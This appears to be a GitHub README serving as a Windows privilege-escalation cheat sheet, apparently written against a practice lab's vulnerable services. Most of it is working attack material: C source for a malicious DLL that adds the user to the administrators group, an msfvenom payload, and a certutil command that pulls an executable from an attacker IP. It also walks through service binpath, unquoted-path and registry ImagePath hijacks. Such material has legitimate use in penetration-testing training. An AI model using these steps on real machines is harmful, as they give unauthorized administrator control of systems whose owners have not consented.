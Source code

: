 # Windows-PrivEsc

## DLL Hijacking
1. Make sure C:\Temp in the Victim Machine is a writable location for standard user.
2. DLL Injection can be done via modifying any dll file in windows which can be run by the user.
3. We can modify the dll or make our own dll .
4. The dll file can be made by compiling the following code in the attacker machine and then placing it under C:\Temp in  Victim’s machine.

CODE:
```
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
   if (dwReason == DLL_PROCESS_ATTACH) {
       system("cmd.exe /k net localgroup administrators $USER$ /add");
       ExitProcess(0);
   }
   return TRUE;
}
```

5. Replace $USER$ with standard user name account and the compile it with mingw ,
6. For 64 bit - ```x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll```
For 32 bit-  ```i686-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll```

The above command will generate the dll file , which we will place in C:\Temp
7. Execute the dll file inside the victim via inbuilt windows command i.e RUNDLL32.EXE
Syntax for running the dll file :

In command prompt :
    cd /
    cd /Temp
    RUNDLL32.EXE hijackme.dll

Boom.!  your user is now added to the local administrator group and you are having the full admin privileges .

## Binpath

1. ```accesschk64.exe -wuvc daclsvc```
![0](images/binpath/1.png)
Notice that the output suggests that the user has the “SERVICE_CHANGE_CONFIG” permission.

2. ```sc config daclsvc binpath= "net localgroup administrators user /add"```
![0](images/binpath/2.png)

3. ```sc start daclsvc```

4. ![0](images/binpath/3.png)

## Unquoted path

1. ```sc qc unquotedsvc```
![0](images/unquote/1.png)

2. Create a executable file with name "common" so when
 ```msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe```
![0](images/unquote/2.png)

3. Transfer the file to windows machine 
```certutil.exe -urlcache -f http://192.168.43.97:8000/common.exe common.exe```
and move it into "C:\Program Files\Unquoted Path Service"

4. ```sc start unquotedsvc```
![0](images/unquote/3.png)

5. ![0](images/unquote/4.png)

## Fileperm

1. ```sc qc filepermsvc```
![0](images/fileperm/1.png)

2. ```accesschk64.exe "C:\Program Files\File Permissions Service\filepermservice.exe"```
![0](images/fileperm/2.png)

3. Now the transfer the windows_service.c file from C:\Users\user\Desktop\Tools\Source folder to your attacker machine and edit it like following.

![0](images/reg/4.png)

4. Now compile it into an executable and transfer back to windows machine.
```x86_64-w64-mingw32-gcc windows_service.c -o filepermservice.exe```

5. ```copy /y c:\Temp\filepermservice.exe "c:\Program Files\File Permissions Service\filepermservice.exe"```

6. ```sc start filepermsvc```

## Services (Registry)
1. Getting a Powershell from initial shell.
![0](images/reg/1.png)
![0](images/reg/2.png)

2. 
```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```
![0](images/reg/3.png)

3. Now the transfer the windows_service.c file from C:\Users\user\Desktop\Tools\Source folder to your attacker machine and edit it like following.

![0](images/reg/4.png)

4. Now compile it into an executable and transfer back to windows machine.
```
x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```

5. Copy it to C:\Temp directory

6. Now run the following command 
```reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f```

![0](images/reg/5.png)

7. ```sc start regsvc```

8. Check 

![0](images/reg/6.png)
